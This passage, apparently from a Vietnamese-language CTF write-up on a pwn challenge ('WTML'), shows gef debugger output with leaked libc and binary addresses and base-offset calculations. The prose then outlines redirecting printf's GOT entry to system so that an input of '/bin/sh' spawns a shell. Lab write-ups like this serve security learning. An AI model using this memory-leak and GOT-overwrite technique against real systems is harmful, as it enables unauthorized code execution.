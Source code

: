 ```java
[*] libc_leak :0x7fa9f2cb0083
[*] exe_leak :0x55a799200120
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x000055a7991ff000 0x000055a799200000 0x0000000000000000 r-- /mnt/c/ctf/wctf/WTML/challenge_patched
0x000055a799200000 0x000055a799201000 0x0000000000001000 r-x /mnt/c/ctf/wctf/WTML/challenge_patched
0x000055a799201000 0x000055a799202000 0x0000000000002000 r-- /mnt/c/ctf/wctf/WTML/challenge_patched
0x000055a799202000 0x000055a799203000 0x0000000000002000 rw- /mnt/c/ctf/wctf/WTML/challenge_patched
0x000055a799203000 0x000055a799204000 0x0000000000004000 rw- /mnt/c/ctf/wctf/WTML/challenge_patched
0x000055a79a417000 0x000055a79a438000 0x0000000000000000 rw- [heap]
0x00007fa9f2c8c000 0x00007fa9f2cae000 0x0000000000000000 r-- /mnt/c/ctf/wctf/WTML/libc-2.31.so
0x00007fa9f2cae000 0x00007fa9f2e26000 0x0000000000022000 r-x /mnt/c/ctf/wctf/WTML/libc-2.31.so
0x00007fa9f2e26000 0x00007fa9f2e74000 0x000000000019a000 r-- /mnt/c/ctf/wctf/WTML/libc-2.31.so
0x00007fa9f2e74000 0x00007fa9f2e78000 0x00000000001e7000 r-- /mnt/c/ctf/wctf/WTML/libc-2.31.so
0x00007fa9f2e78000 0x00007fa9f2e7a000 0x00000000001eb000 rw- /mnt/c/ctf/wctf/WTML/libc-2.31.so
0x00007fa9f2e7a000 0x00007fa9f2e80000 0x0000000000000000 rw-
0x00007fa9f2e80000 0x00007fa9f2e81000 0x0000000000000000 r-- /mnt/c/ctf/wctf/WTML/ld-2.31.so
0x00007fa9f2e81000 0x00007fa9f2ea4000 0x0000000000001000 r-x /mnt/c/ctf/wctf/WTML/ld-2.31.so
0x00007fa9f2ea4000 0x00007fa9f2eac000 0x0000000000024000 r-- /mnt/c/ctf/wctf/WTML/ld-2.31.so
0x00007fa9f2ead000 0x00007fa9f2eae000 0x000000000002c000 r-- /mnt/c/ctf/wctf/WTML/ld-2.31.so
0x00007fa9f2eae000 0x00007fa9f2eaf000 0x000000000002d000 rw- /mnt/c/ctf/wctf/WTML/ld-2.31.so
0x00007fa9f2eaf000 0x00007fa9f2eb0000 0x0000000000000000 rw-
0x00007ffd947b3000 0x00007ffd947d4000 0x0000000000000000 rw- [stack]
0x00007ffd947dc000 0x00007ffd947e0000 0x0000000000000000 r-- [vvar]
0x00007ffd947e0000 0x00007ffd947e2000 0x0000000000000000 r-x [vdso]
gef➤  p/x 0x55a799200120 - 0x000055a7991ff000
$1 = 0x1120
gef➤  p/x 0x7fa9f2cb0083 - 0x00007fa9f2c8c000
$2 = 0x24083
```

Vậy là ta đã có địa chỉ base của libc và binary giờ chỉ còn tạo shell nữa là xong. Lúc đầu mình định overwrite got của puts nhưng nhận ra là ta không thể điều khiển được rdi do PIE đang được bật, nhưng hàm printf thì có. Do args của nó sẽ là input mình nhập vào. 
```java
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x000055a799200570  →  <__libc_csu_init+0> endbr64
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x00007ffd947d1720  →  0x0000004100000042 ("B"?)
$rbp   : 0x00007ffd947d1830  →  0x00007ffd947d1890  →  0x0000000000000000
$rsi   : 0x00007ffd947cf080  →  "Your respones: "eedback about v2: AAAAAAAAAAAAAA</[...]"
$rdi   : 0x00007ffd947d1730  →  0x00000a6f6c6c6568 ("hello\n"?) <=================================================
$rip   : 0x000055a7992003be  →  <replace_tag_v2+153> call 0x55a7992000d0 <printf@plt>
$r8    : 0x10
$r9    : 0x10
$r10   : 0x000055a79920103b  →  "Your respones: ""
$r11   : 0x246
$r12   : 0x000055a799200120  →  <_start+0> endbr64
$r13   : 0x00007ffd947d1980  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```
Ta sẽ dùng cái này để đưa chuỗi /bin/sh vào và chạy hàm system nhờ printf.
